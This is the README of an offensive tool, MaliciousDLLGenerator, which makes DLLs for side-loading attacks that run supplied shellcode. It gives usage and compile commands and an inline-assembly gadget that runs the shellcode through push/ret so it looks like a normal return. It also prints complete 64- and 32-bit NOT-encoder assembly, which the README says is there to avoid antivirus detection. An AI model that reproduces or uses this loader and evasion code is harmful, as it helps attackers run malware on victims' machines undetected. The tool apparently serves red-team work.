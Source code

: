# MaliciousDLLGenerator

DLL Generator for side loading attack

### Currently only support 64 bits shellcode

# Usage

```
$ python gen-dll.py -h

MaliciousDLLGenerator - Mr.Un1k0d3r - RingZer0 Team
---------------------------------------------------


[-] Shellcode size is limited to 1024 bytes
usage: gen-dll.py [-h] -o OUTPUT -s SHELLCODE [-t TYPE]

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output filename
  -s SHELLCODE, --shellcode SHELLCODE
                        Raw shellcode file path
  -t TYPE, --type TYPE  DLL type (default,oart)
```

# Shellcode gadget

Instead of using the standard shellcode calling structure

```
char shellcode[] = {};
int(*execute)(void);
execute = (int(*)())shellcode;
execute();
```

Which result in the following assembly code

```
call rax
```

The DLL is mimicking a standard function return by using the following code

```
        CHAR payload[] = "";
        asm volatile ("mov %%rax, %0\n\t"
                     "push %%rax\n\t"
                     "ret"
                     :
                     : "r" (payload));
```

Which result in following assembly code

```
mov rax, rsp
push rax
ret
```

# Compiling from source using GCC

```
C:\> x86_64-w64-mingw32-g++.exe -Wall -DBUILD_DLL -c maindll.cpp -o maindll.o
C:\> x86_64-w64-mingw32-g++.exe -shared -Wl,--dll maindll.o -o yourdll.dll -s 
```

# Compiling from ASM

64 bits

```
$ nasm -felf64 encoder-64.asm -o encoder-64.o
$ ld -N encoder-64.o -o encoder-64
```

32 bits

```
$ nasm -felf32 encoder-32.asm -o encoder-32.o
$ ld -N -melf_i386 encoder-32.o -o encoder-32
```

# Obfuscation shellcode

The DLL encode the shellcode using a simple NOT encoder to avoid AV detection.

# 64 bits NOT encoder source

```
_start:
        call $ + 5
        pop rbx
        xor rax, rax
        mov rcx, rax
        mov cl, 128
        add rbx, 16
_loop:
        not QWORD [rbx + rcx * 8]
        loop _loop
        add rbx, 8
        push rbx
        ret
```

# 32 bits NOT encoder source

```
_start:
        call $ + 5
        pop ebx
        xor eax, eax
        mov ecx, eax
        mov cx, 256
        add ebx, 18
_loop:
        not DWORD [ebx + ecx * 4]
        loop _loop
        add ebx, 4
        push ebx
        ret
```

# Credit
Mr.Un1k0d3r RingZer0 Team
